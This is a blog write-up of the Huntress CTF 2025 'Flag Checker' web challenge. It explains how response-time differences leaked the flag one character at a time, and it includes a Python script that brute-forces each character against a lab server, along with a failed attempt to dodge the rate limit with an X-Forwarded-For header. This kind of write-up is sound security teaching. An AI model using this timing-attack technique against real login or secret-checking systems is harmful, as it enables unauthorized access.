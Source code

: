 ```yaml
---
title: "Huntress CTF 2025 Writeup: Flag Checker"
date: 2025-11-01 16:36:48 +0100
categories: ["Huntress CTF 2025"]
tags: ["Web", "CTF", "Huntress", "Timing Attack"]
image: https://raw.githubusercontent.com/AbdulRKB/img/refs/heads/main/Huntress%20CTF%202025/flag-checker-1.png
---
```


> We've decided to make this challenge really straight forward. All you have to do is find out the flag!

> Juuuust make sure not to trip any of the security controls implemented to stop brute force attacks...
---

I used the alert "Brute forcing won't work" as a hint that it was a brute forcing challenge, but what kind of brute force?

After looking at the website more and submitting data, I realised that inputting correct substring (from index 0) caused the website to have a delay which matched the length of the correct substring, e.g. "flag" led to a response time of 0.4s, and "flag{" led to a response time of 0.5s.

![flag-checker-2.png](https://raw.githubusercontent.com/AbdulRKB/img/refs/heads/main/Huntress%20CTF%202025/flag-checker-2.png)

This showed that the web was vulnerable to character by character time-analysis brute forcing. So I created a python script to automate the process of testing every character from `a-f0-9`to see if a change in response time was detected, and upon detection, I would attach that character to the prefix string manually and rerun the string to test characters for next position.  

After submitting about 10 inputs, I was met with the following error:

![flag-checker-3.png](https://raw.githubusercontent.com/AbdulRKB/img/refs/heads/main/Huntress%20CTF%202025/flag-checker-3.png)

I tried to bypass this by adding `X-Forwarded-For`, however It didn't work. So I decided to reset the machine every time the server blocked my IP. 

```python
import requests


IP = "10.1.51.122"
URL = f"http://"+IP+"/submit?flag=flag{77ba0346d9565e77344b9fe40ecf1369"
DATA = "abcdef0123456789"
last_char = '2'
DATA = last_char+DATA.split(last_char)[1]
try:

    for d in DATA:
        resp = requests.get(URL+d)
        resp_data = resp.content.decode()
        print(f"[+] Trying {d}, time: {resp.headers['X-Response-Time']}")
        if "Stop Hacking" in resp_data:
            print(f"[-] Rate Limit, last character: {d} ")
            break
except KeyboardInterrupt:
    print("[x] Exiting!")
except KeyError:
    print("[-] Server Still Starting...")
```
